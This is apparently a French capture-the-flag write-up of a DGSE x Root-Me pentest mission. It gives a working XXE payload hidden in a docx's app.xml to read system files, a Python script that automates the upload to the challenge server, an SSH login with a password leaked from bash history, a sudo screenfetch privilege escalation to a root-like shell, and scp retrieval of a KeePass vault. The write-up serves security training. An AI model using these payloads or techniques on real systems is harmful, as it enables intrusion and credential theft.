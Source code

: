 # Mission 4 DGSE x Root-Me (PENTEST)

![Brief](images/mission.png)

# Writeup

- On peut se rendre sur **l'Application Web de l'entité**.

- Sur cette application nous avons **deux options** :
  
![Brief](images/options.png)

`Track a Word document` et `Identify a victim from a document`

Pour ces deux options nous devons obligatoirement upload un **document word .docx**.

> [!IMPORTANT]
> Mais qu'est-ce qu'un document docx ?
> Un .docx fonctionne comme une archive .zip : il contient plusieurs fichiers, dont des fichiers XML. L’un d’eux, app.xml, est utilisé pour stocker des métadonnées.

On upload un document .docx vierge avec la première option et on récupère le document "signé".

-- Le fichier **app.xml** contient une balise personnalisée **VictimID : 

```xml
<VictimID>victim-42382ede-f219-4076-9758-be4ee93686d4</VictimID>
```

La deuxième option **récupère** le contenu de cette la balise pour "identifier la victime".

On voit donc la possibilité d'une injection **XXE** pour récupérer des fichiers système.

--> On modifie le contenu de app.xml et on update l'archive docx pour tester la récupération de /etc/passwd : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties"
            xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
  <VictimID>&xxe;</VictimID>
  <Application>App</Application>
</Properties>
```
On upload ce fichier via la deuxième option et on récupère le contenu de /etc/passwd --> Cela confirme la vulnérabilité : 

![Vuln](images/passwd1.png)

Nous pouvons modifier l'archive manuellement à chaque fois que l'on veut tester une cible pour le path **XXE** mais c'est contraignant.

-- Automatisation de ce processus grâce à un script python :

```python
import zipfile
import os
import shutil
import requests

docx_file = "passwd.docx" # On part de l'archive que nous avons utilisé pour récupérer passwd
xxe_target = "/etc/passwd"  # Path pour la "cible" xxe
base_url = "http://163.172.67.183"
upload_url = f"{base_url}/read" 

zip_file = docx_file.replace(".docx", ".zip")
extracted_dir = "unzipped_payload"
modified_docx = "xxe_modified.docx"

shutil.copyfile(docx_file, zip_file)

# Extraire les fichiers dans l'archive

os.makedirs(extracted_dir, exist_ok=True)
with zipfile.ZipFile(zip_file, 'r') as zip_ref:
    zip_ref.extractall(extracted_dir)

# Payload

app_xml_path = os.path.join(extracted_dir, "docProps", "app.xml")
if os.path.exists(app_xml_path):
    with open(app_xml_path, "r", encoding="utf-8") as f:
        content = f.read()

    new_content = content.replace("file:///etc/passwd", f"file://{xxe_target}")

    with open(app_xml_path, "w", encoding="utf-8") as f:
        f.write(new_content)
else:
    print(" app.xml introuvable.")
    exit(1)

# Nouvelle archive

with zipfile.ZipFile(modified_docx, 'w', zipfile.ZIP_DEFLATED) as new_zip:
    for root, _, files in os.walk(extracted_dir):
        for file in files:
            full_path = os.path.join(root, file)
            arcname = os.path.relpath(full_path, extracted_dir)
            new_zip.write(full_path, arcname)

print(f" Fichier modifié : {modified_docx} (payload: {xxe_target})")

with open(modified_docx, "rb") as f:
    files = {
        "file": (modified_docx, f, "application/vnd.openxmlformats-officedocument.wordprocessingml.document")
    }
    print("Envoi en cours") # Vers l'endpoint /read qui est celui utilisé pour la deuxième option.
    response = requests.post(upload_url, files=files)

print(f"\n Statut HTTP : {response.status_code}")
print(" Réponse serveur :\n")
print(response.text)
```
> Il faudrait obtenir un accès persistant à la machine — l’accès SSH paraît être l’option la plus réaliste.

On essaie de récupérer plusieurs fichiers systèmes comme les clés ssh mais une erreur indique que nous n'avons pas les droits pour les lire.

* On arrive dans un premier temps à récupérer la config OpenSSH avec le path "/etc/ssh/sshd_config" ce qui leak le port utilisé pour OpenSSH : **Port 22222**
* Dans un second temps on récupère le hostname (document-station).

On recupère l'historique bash de **document-user** :

![History](images/Bashistory.png)

Celui-ci contient la commande : 

```
echo "cABdTXRyUj5qgAEl0Zc0a" >> /tmp/exec_ssh_password.tmp
```

Nous pouvons déduire que **cABdTXRyUj5qgAEl0Zc0a** est le mot de passe d'un utilisateur, or ce n'est pas celui de document-user.

Le fichier passwd nous a également fuiter d'autres users, on en teste plusieurs avec ce mot de passe, on finit par trouver le bon, il s'agit de `executor`.

```
sshpass -p 'cABdTXRyUj5qgAEl0Zc0a' ssh -p 22222 executor@163.172.67.183
```

- On navigue rapidement dans les répertoires, une fois dans /home/administrator/, plusieurs éléments intéressants apparaissent.

`vault.kdbx` - C'est un fichier de base de données KeePass, souvent utilisé pour stocker des mots de passe de manière chiffrée.

`logo.jpg`   - C'est un fichier image qui a première vu n'a rien d'intéressant ^^.

- On veut récupérer ces deux fichiers car ils peuvent être la clé de l'énigme mais en l'état **nous n'avons pas les droits de lecture dessus.**

--> En regardant les droits sudoers en tant qu'executor, on remarque que l'on peut éxécuter le binaire screenfetch en tant qu'administrator:

```
User executor may run the following commands on document-station:
    (administrator) NOPASSWD: /usr/bin/screenfetch
```

>[!NOTE]
> Il n'est pas forcément évident de trouver immédiatement comment escalader les privilèges, mais quelques recherches sur le binaire permettent d’y parvenir.

- À première vue, screenfetch semble inoffensif (il sert juste à afficher des infos système), mais il accepte des options qui peuvent être détournées, notamment, avec l’option -S, avec laquelle il est possible d’exécuter une commande personnalisée :

```
sudo -u administrator /usr/bin/screenfetch -s -S '/bin/bash -p'
```

- Ici, on utilise l’option -S pour exécuter `/bin/bash -p`, le flag `-p` (privileged mode) permet de conserver les privilèges de l’utilisateur avec lequel la commande est lancée — en l’occurrence administrator.

--> Cela permet de lancer un shell Bash en tant qu'administrator, en exploitant **cette erreur de configuration** :

![Brief](images/privesc.png)

> [!NOTE]
> Nous avons maintenant les droits de lecture sur ces deux fichiers mais nous avons un autre problème.

Comment récupérer ces deux fichiers en local pour pouvoir les analyser sachant que nous n'avons pas les droits en écriture sur la plupart des dossiers ? (Read-only file system)

- A la racine on repère un script "entrypoint.sh", voici son contenu :

```
#!/bin/bash

service ssh restart

chmod 1773 /dev/shm

su - document-user -c "cd /app && flask run --host=0.0.0.0 --port=5000"
```
> On a donc la solution à notre problème.

- Il applique chmod 1773 sur le dossier /dev/shm, ce qui garantit que ce répertoire est accessible en écriture pour tous les utilisateurs.

--> On copie les deux fichiers importants vers /dev/shm en tant qu'administrator et on donne les droits de lecture à tous les utilisateurs :

```
cp /home/administrator/logo.jpg   /home/administrator/vault.kdbx  /dev/shm/
chmod 644 /dev/shm/logo.jpg /dev/shm/vault.kdbx
```

--> Puis on récupère les deux fichiers sur notre machine en local avec scp :

```
scp -P 22222 executor@163.172.67.183:/dev/shm/logo.jpg .
scp -P 22222 executor@163.172.67.183:/dev/shm/vault.kdbx .
```

- KeePass permet d’ouvrir le vault, mais l’accès nécessite un mot de passe qui n’est pas disponible. Il est toutefois possible d’utiliser un `keyfile`. L’image `logo.png` est utilisée comme keyfile et permet de le déverrouiller :

![Flag](images/flag.png)

**Flag:**
```
RM{f5289180cb760ca5416760f3ca7ec80cd09bc1c3}
```



